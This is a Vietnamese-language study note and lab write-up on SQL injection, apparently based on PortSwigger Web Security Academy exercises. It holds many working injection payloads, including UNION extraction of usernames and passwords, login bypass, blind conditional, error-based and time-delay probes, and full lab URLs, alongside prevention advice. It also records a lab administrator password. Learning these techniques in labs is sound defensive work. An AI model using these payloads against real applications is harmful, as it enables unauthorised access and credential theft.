# **SQL injection** #

## **SQL injection là gì ?** ##

- SQL injection là một lỗ hổng bảo mật web cho phép kẻ tấn công can thiệp vào các truy vấn mà ứng dụng thực hiện đối với cơ sở dữ liệu. Nó giúp kẻ tấn công xem dữ liệu mà mà thông thường chúng không truy xuất được. Trong nhiều trường hợp, kẻ tấn công có thể sửa đổi hoặc xóa dữ liệu của úng dụng.

- [**CHEATSHEET**](https://portswigger.net/web-security/sql-injection/cheat-sheet)


## **Một số ví dự về SQL injection** ##

- `Retrieving hidden data`
- `Subverting application logic`
- `UNION attacks`
- `Examining the database`
- `Blind SQL injection`



## **Retrieving hidden data ( Truy xuất dữ liệu ẩn )** ##

- Hãy xem xét một ứng dụng mua sắm hiển thị các sản phẩm trong các danh mục khác nhau. Khi người dùng nhấp vào danh mục Quà tặng, trình duyệt của họ sẽ yêu cầu URL:

```javascript
    https://insecure-website.com/products?category=Gifts
```

- Điều này khiến ứng dụng tạo một truy vấn SQL để truy xuất thông tin chi tiết về các sản phẩm có liên quan từ cơ sở dữ liệu:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

- Ứng dụng không thực hiện bất kỳ biện pháp bảo vệ nào chống lại các cuộc tấn công SQL injection, vì vậy kẻ tấn công có thể tạo ra một cuộc tấn công như:

```js
https://insecure-website.com/products?category=Gifts'--
```

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

OR

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

## **Subverting application logic (Phá vỡ logic)** ##

- Hãy xem xét một ứng dụng cho phép người dùng đăng nhập bằng tên người dùng và mật khẩu. Nếu người dùng gửi wiener tên người dùng và mật khẩu bluecheese, ứng dụng sẽ kiểm tra thông tin đăng nhập bằng cách thực hiện truy vấn SQL sau:

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

- Nếu truy vấn trả về thông tin chi tiết của người dùng thì đăng nhập thành công. Nếu không, nó bị từ chối.

- Kẻ tấn công có thể đăng nhập bất kì với tư cách là người dùng mà không cần mật khẩu như sau.

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

## **Retrieving data from other database tables (Lấy dữ liệu từ các bảng cơ sở dữ liệu khác)** ##

```sql
SELECT name, description FROM products WHERE category = 'Gifts'
```

- Kẻ tấn công có thể gửi input nhập vào như sau:

```sql
' UNION SELECT username, password FROM users--
```

## **Examining the database** ##

- Bạn có thể truy vấn chi tiết phiên bản cho cơ sở dữ liệu.

```sql
SELECT * FROM v$version
```

- Bạn cũng có thể xác định những bảng cơ sở dữ liệu nào tồn tại và chúng chứa những cột nào.

```sql
SELECT * FROM information_schema.tables
```

## **Blind SQL injection vulnerabilities** ##

- Nhiều khi ứng dụng không trả về kết quả truy vấn của sql hoặc chi tiết về bất cứ cơ sơ dữ liệu nào. Các lỗ hổng blind sql vẫn có thể bị khai thác truy cập dữ liệu trái phép.

- Khai thác dựa trên sự khác biệt qua response.

> ### **Exploiting blind SQL injection by triggering conditional responses**

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

> ### **Inducing conditional responses by triggering SQL errors**

```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

## **SQL injection UNION attacks** ##

```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

- Xác định số lượng cột:

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

- Tìm kiếm kiểu dữ liệu của cột:

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

## **Ảnh hưởng của SQL injection**

- Có thể bị lấy toàn bộ dữ liệu database, có thể sửa dữ liệu.
- Có thể bị RCE, trong một số tình huống kẻ tấn công có thể leo thang đặc quyền để chiếm máy chủ.
- Điều kiện RCE
  - Có quyền ghi file
  - File sau khi tạo có quyền thực thi

## **Phòng chống SQL injection**

- Sử dụng prepare statement
khi sử dụng prepare statement thì tham số truyền vào sẽ được coi là một chuỗi:


- Các phương thức setter của PreparedStatement coi các giá trị truyền vào chỉ có thể là một value, nó sẽ loại bỏ hoàn toàn các ký tự lạ mà người dùng nhập vào trái phép. Do đó loại bỏ mối nguy hại của SQL Injection.

- Sử dụng ORM (Object Relational Mapping)
Việc thao tác không cần thông qua câu lệnh trực tiếp. ORM đã kiểm soát input truyền vào
trước khi thực thi


- Không dùng user root để thao tác database, giới hạn thao tác trên database của người dùng.

- Sử dụng lọc input đầu vào.

## **LAB SQL injection** ##

> ### **SQL injection vulnerability in WHERE clause allowing retrieval of hidden data**

- Đối với bài này, đề bài yêu cầu thực hiện một cuộc tấn công để hiện thị chi tiết tất cả sản phẩm trong bất kì danh mục nào.
- Đề ra đã cho chung ta biết rằng khi chúng ta chọn một danh mục, trang web sẽ thực hiện truy vấn như sau:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

- Từ đấy, đấy tôi đã thực hiện tấn công sql injections như sau:

```js
https://0af8003303956514c033a40a00a6002c.web-security-academy.net/filter?category=%27+or+1=1--
```

> ### **SQL injection vulnerability allowing login bypass**

- Đối với bài này, tôi đã thử tấn công sql injection bằng việc comment phần password để có thể bypass login. Và tôi đã bypass thành công.



> ### **SQL injection UNION attack, determining the number of columns returned by the query**

- Đối với bài này tôi đã thử tấn công UNION attack để lấy dữ liệu từ bảng khác. Bước đầu tiên, tôi sẽ xác định số lượng cột.

- Tôi đã xác thực số cột bằng cách truy vấn như sau:

```js
https://0a85008d0472e372c324de3d00140075.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20NULL,NULL--
```

- Tôi đã thử xem cơ sở dữ liệu bảng có phải có 2 cột hay không.Thì server trả về là lỗi. Vậy tôi đã thử với 3 cột NULL. Và kết quả trả về không lỗi vậy tôi đã xác định số lượng cột.

```js
https://0a85008d0472e372c324de3d00140075.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20NULL,NULL,NULL--
```

> ### **SQL injection UNION attack, finding a column containing text**

- Tôi đã xác định số lượng cột bằng cách tương tự bài trên. Và số lượng trong bảng là 3 cột. Bước thứ 2 tôi xác định kiểu dữ liệu trong cột trong cột như sau:

```sql
' UNION SELECT NULL,'5o2AyN',NULL--
```

```js
https://0a8100a2031ec489c4bbecf70033008a.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20NULL,%275o2AyN%27,NULL--
```

- Và kết quả tôi đã solve được bài ra vậy cột 2 trong bảng cơ sở dữ liệu là kiểu chuỗi.

> ### **SQL injection UNION attack, retrieving data from other tables**

- Đối với bài này, tôi đã thực hiện tấn công UNION để lấy tài khoản và mật khẩu người dùng từ bảng khác mang tên users như sau:

```js
https://0adb00d70421759bc0f836bb00920016.web-security-academy.net/filter?category=%27%20UNION+SELECT+username,password+FROM+users--
```



- Và tôi đã lấy được tài khoản admin.

> ### **SQL injection UNION attack, retrieving multiple values in a single column**

- Sau khi tôi thực hiện một số truy vấn, tôi đã xác định số lượng cột. Bước thứ 2 tôi đã xác định kiểu dữ liệu của cột bằng cách truy vấn như sau:

```js
https://0ac3003a043fbcd6c275fc21005c0046.web-security-academy.net/filter?category=%27+UNION+SELECT+%27a%27,NULL--
```

- Và tôi biết được chỉ mỗi duy nhất cột 2 có `kiểu dữ liệu chuỗi`. Vậy tôi đã lấy dữ liệu tk và pass như sauL

```js
https://0ac3003a043fbcd6c275fc21005c0046.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20NULL,username%20||%20%27~%27%20||%20password%20FROM%20users--
```



> ### **SQL injection attack, querying the database type and version on Oracle**

- Đối với bài này trang web đã sử dụng cơ sở dữ liệu Oracle, như ta đã biết Oracle có sử dụng 1 bảng mang tên Dual và mọi người dùng đều có thể truy cập được, vận dụng điều đó tôi đã tấn công để xem được version sql như sau.

```js
https://0a0a00dd030c7017c2de751600ee0030.web-security-academy.net/filter?category=%27+UNION+SELECT+NULL,banner+FROM+v$version--
```

> ### **SQL injection attack, querying the database type and version on MySQL and Microsoft**

- Tôi đã sử dụng sql injection để xác định được bảng này sử dụng đến 2 cột như sau:



- Sau đó, tôi thực hiện tấn công hiện thị version:



> ### **SQL injection attack, listing the database contents on non-Oracle databases**

- Đối với bài này tôi đã xác định được số lượng cột là hai bằng cách truy vấn sql injection.
- Việc thứ hai tôi cần làm tìm ra tên bảng trong cơ sở dữ liêu.

```sql
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```

- Tôi đã tìm ra được một tên bảng khá là khả nghi.



- Khi tôi đã biết đến tên bảng. Bây giờ tôi sẽ thực hiện để tìm tên cột trong bảng bằng truy vấn sau:

```sql
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_vkehtx'--
```



- Từ đấy tôi có thể thực hiện truy vấn lấy ra user và password nạn nhân:

```sql
' UNION SELECT username_disdyz,password_uipsdu FROM users_vkehtx--
```



> ### **SQL injection attack, listing the database contents on Oracle**

- Đầu tiên tôi cũng đã thực hiện tìm kiếm số cột trong bảng cơ sở dữ liệu. Và tôi biết được có 2 cột trong cơ sở dữ liệu.


- Tôi sẽ thực hiện tìm tên bảng như sau:



- Kết quả tôi đã tìm thấy tên bảng khả nghi `USERS_CDYSER`. Tôi thực hiện tìm tên cột trong bảng.



- Vậy kết quả sau khi tôi tấn công sql injection như sau:



> ### **Blind SQL injection with conditional responses**

- Đối với bài này, đề bài đã gợi ý cho chúng ta ứng dụng đã sử dụng trakingId cookies để phân tích, và thực hiện truy vấn có chứa cookie đã gửi. Chính vì điều đó, chúng ta sẽ tấn cống tiêm vào cookie.

- Tôi đã thử injection điều kiện vào cookie để xem phản hồi nó sẽ có sự khác biệt gì.



- Phàn hồi vẫn trả về `Welcomeback` điều đó có nghĩa chúng ta có thể thực hiện truy vấn qua cookies.

- Bước thứ 2, tôi kiểm tra xem bảng tên users hay không bằng cách thực hiện truy vấn sau:

```sql
AND (SELECT 'a' FROM users LIMIT 1)='a
```

- Và kết quả cho tôi biết nó đã tồn tải bảng users vì phàn hồi nó đã hiện welcome back



- Tương tự như thế, tôi cũng đã xác định được có tên admin trong bảng user hay không.



- Sau một vài lần truy vấn tôi đã phát hiện password=20.



- Tôi đã thực hiện Brute force để tìm password, tôi đã thực hiện sql injection có điều kiện nếu phản hồi có welcome back điều đó có nghĩa là đúng:





- Tôi đã tìm thấy password admin : { `administrator : 03hsgkb9mtlav0qumkg2` }

> ### **Blind SQL injection with time delays**

- Đối với bài này, khi chúng ta tiêm sql injection vào đều không thấy sự khác biệt về phản hồi. Vậy tôi đặt ra câu hỏi làm thế nào để nhận biết trong những câu truy vấn. Đáp án ở đây là chúng ta nhận biết qua độ trễ phản hồi.



> ### **Blind SQL injection with out-of-band interaction**
